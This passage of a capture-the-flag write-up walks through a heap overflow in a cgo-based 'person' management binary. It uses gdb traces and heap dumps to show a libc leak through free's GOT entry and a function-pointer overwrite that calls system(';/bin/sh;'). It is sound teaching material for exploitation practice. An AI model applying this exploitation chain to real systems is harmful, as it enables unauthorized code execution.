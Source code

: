 ```
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 1

Creating a new person...
[Switching to Thread 0xf7dde700 (LWP 12627)]
malloc(12)          #_cgo_df1ab1e22195_Cfunc_createPerson ()
= 0x81a8008
Enter name length: 1337
malloc(1337)          #x_cgo_malloc ()
= 0x81a81e0
Enter person's name: NAME              
Enter person's age: 12

// I couldn't seem to silence the output of the "finish" command, hence the weird x_cgo...
```

### Plunder.py
With these debug hooks, you can just explore the binary. Within no time, it's very easy to identify the exploit (maybe I could have done static analysis and found it but nvm lol). When you edit an entry, no call to `malloc` or `free` is made, even when you specify a larger size. This could mean that `realloc` is called, OR that it does not care about the old size. It turned out to be the latter so it's a heap overflow vulnerability.
```
Editting a person...
Enter person's index (0-based): 0
Enter new name length: 133700	# original chunk is size 1337
Enter the new name: OVERFLOW
```
If you noticed earlier when "Creating a new person", a `malloc(12)` call is made. This indicates that there is some metadata for a person saved on the stack, probably a pointer to the name. Just set the age to an easily searchable size like 0xdeadbeef, and search for that value in gdb. Exploitation becomes very obvious and easy after this point, as the person metadata looks like this.
```
0x081a8008│+0x0000: 0x080ebb10  →  <printPerson+0> push esi
0x081a800c│+0x0004: 0x081a81e0  →  "NAME"
0x081a8010│+0x0008: 0xdeadbeef
```
We have a function pointer and a string pointer in the heap, we can just overwrite these with our heap overflow and perform the usual, leak libc -> system("/bin/sh") exploit sequence. 
```
0x081a8008│+0x0000: 0x080ebb10  →  <printPerson+0> push esi
0x081a800c│+0x0004: 0x08191028  →  0xf7e4e470  →  <free+0> push ebx
0x081a8010│+0x0008: 0xdeadbeef
```
By overwriting the name pointer with the GOT address of free, we leak a libc address when we print a person with option 3. We can thus calculate the base address of libc from this leak.
```
0x081a8008│+0x0004: 0xf7e10940  →  <system+0> sub esp, 0xc
0x081a800c│+0x0008: ";/bin/sh;"
0x081a8010│+0x000c: "n/sh;"
```
Now we can pop a shell by setting up a person like this. This will result in the binary calling `system("\x40\x09\xe1\xf7;/bin/sh;")` when you print the person. Although the first part is not a proper shell command, it will end at the semicolon and our proper "/bin/sh" execution will run.
